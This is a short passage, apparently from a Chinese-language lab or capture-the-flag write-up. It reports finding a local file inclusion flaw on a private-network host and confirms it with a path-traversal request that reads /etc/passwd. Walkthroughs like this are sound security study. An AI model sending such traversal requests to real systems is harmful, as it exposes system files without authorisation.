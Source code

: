 ![image-20200115154745245](/assets/images/image-20200115154745245.png)

最下方居然有个File does not exist

提醒我们是不是存在本地文件包含漏洞

试一下加个file参数

```
http://192.168.31.222/addrecord.php?file=../../../../../../../etc/passwd
```

发现底部果然返回了文件内容
